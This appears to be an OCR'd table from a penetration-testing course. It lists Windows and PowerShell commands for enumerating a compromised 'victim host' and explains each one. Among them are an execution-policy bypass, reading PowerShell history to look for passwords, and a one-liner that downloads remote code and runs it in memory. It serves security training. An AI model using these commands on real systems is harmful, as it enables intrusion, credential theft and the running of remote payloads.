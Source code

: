 | **Command**                                                                                                                | **Result**                                                                                                                                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hostname`                                                                                                                 | Prints the PC's Name                                                                                                                                                                                                                          |
| `[System.Environment]::OSVersion.Version`                                                                                  | Prints out the OS version and revision level                                                                                                                                                                                                  |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                                                                    | Prints the patches and hotfixes applied to the host                                                                                                                                                                                           |
| `ipconfig /all`                                                                                                            | Prints out network adapter state and configurations                                                                                                                                                                                           |
| `set`                                                                                                                      | Displays a list of environment variables for the current session (ran from CMD-prompt)                                                                                                                                                        |
| `echo %USERDOMAIN%`                                                                                                        | Displays the domain name to which the host belongs (ran from CMD-prompt)                                                                                                                                                                      |
| `echo %logonserver%`                                                                                                       | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)                                                                                                                                                    |
| [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo)                   | Print a summary of the host's information for us in one tidy output.                                                                                                                                                                          |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |